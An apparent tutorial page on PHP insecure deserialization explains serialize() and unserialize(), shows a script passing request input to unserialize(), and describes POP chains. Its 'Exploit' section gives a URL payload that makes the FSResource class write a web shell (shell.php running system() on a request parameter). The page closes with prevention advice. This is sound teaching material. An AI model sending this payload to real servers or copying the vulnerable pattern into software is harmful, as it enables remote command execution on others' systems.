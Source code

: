 ![Unsafe Deserialization](image/serialization.png?raw=true "Unsafe Deserialization")
# Description
Unsafe Deserialization (also referred to as Insecure Deserialization) is a vulnerability wherein malformed and untrusted data input is insecurely deserialized by an application. It is exploited to hijack the logic flow of the application end might result in the execution of arbitrary code.

# Understanding Serialization and UnSerialization

## Serialize()

The serialize() function converts a storable representation of a value. To serialize data means to convert a value to a sequence of bits, so that it can be stored in a file, a memory buffer, or transmitted across a network.

Example:

```php
<?php

$our_array = array("Pentester","Nepal");
$serialized = serialize($our_array);
echo $serialized;

?>

```
Returns:
`a:2:{i:0;s:9:"Pentester";i:1;s:5:"Nepal";}`

Understanding the serialized string;

| String     | Meaning      |
| ------------- | ------------- | 
|a:2{|	    Array of 2 values|
|i:0|	       Integer, value [ index-0]|
|S:9:"Pentester"|    String, 9 chars long, string value "Pentester"|
|i:1|	Integer, value [index-1]|
|S:5:"Nepal"|	String , 5 chars long, string value "Nepal"


## unserialize()
Convert serialized data back into actual data.

Example:

```php
<?php
$data = serialize(array("Pentester", "Nepal"));

$test = unserialize($data);
var_dump($test);
?>
```
Returns:
`array(2) { [0]=> string(9) "Pentester" [1]=> string(5) "Nepal" }`

# Vulnerability

For example, the following script creates an instance of the object FSResource, serializes it, and then prints the string representation of the object.

```php
<?php

class FSResource {

    function __construct($path) {
        $this->path = $path;
        if (file_exists($path)) {
          $this->content = file_get_contents($path);
        }
    }

    function __destruct() {
        file_put_contents($this->path, $this->content);
    }

}

$resource = new FSResource('/tmp/file');
print(serialize($resource));

# Prints the following string representation:
# O:10:"FSResource":2:{s:4:"path";s:9:"/tmp/file";s:7:"content";s:0:"";}
```

The exploitation of deserialization in PHP is called PHP Object Injection, which happens when user-controlled input is passed as the first argument of the unserialize() function. This is a vulnerable script.php:

```php
<?php

$instance = unserialize($_GET["data"]);
?>
```

To be exploitable, the vulnerable piece of code must have enough PHP code in scope to build a working POP chain, a chain of reusable PHP code that causes a meaningful impact when invoked. The chain usually starts by triggering `__destroy()` or `__wakeup()` PHP magic methods, called when the object is destroyed or deserialized, in order to call other gadgets to conduct malicious actions on the system.

If the class FSResource defined in the paragrah above is in scope, an attacker could send an HTTP request containing a serialized representation of an FSResource object that creates a malicious PHP file to path with an arbitrary content when the `__destruct()` magic method is called upon destruction.

# Exploit

`http://localhost/script.php?data=O:10:%22FSResource%22:2:{s:4:%22path%22;s:9:%22shell.php%22;s:7:%22content%22;s:27:%22%3C?php%20system($_GET[%22cmd%22]);%22;}`

The payload above decodes as `O:10:"FSResource":2:{s:4:"path";s:9:"shell.php";s:7:"content";s:27:"<?php system($_GET["cmd"]);";}` and, when deserialized, it creates the shell.php allowing the attacker to run arbitrary commands on the systems.

# Prevention
Never use the `unserialize()` function on user-supplied input, and preferably use data-only serialization formats such as JSON. If you need to use PHP deserialization, a second optional parameter has been added in PHP 7 that enables you to specify an allow list of allowed classes.

References: [Notsosecure](https://notsosecure.com/remote-code-execution-php-unserialize),[](https://knowledge-base.secureflag.com/vulnerabilities/unsafe_deserialization/unsafe_deserialization_php.html)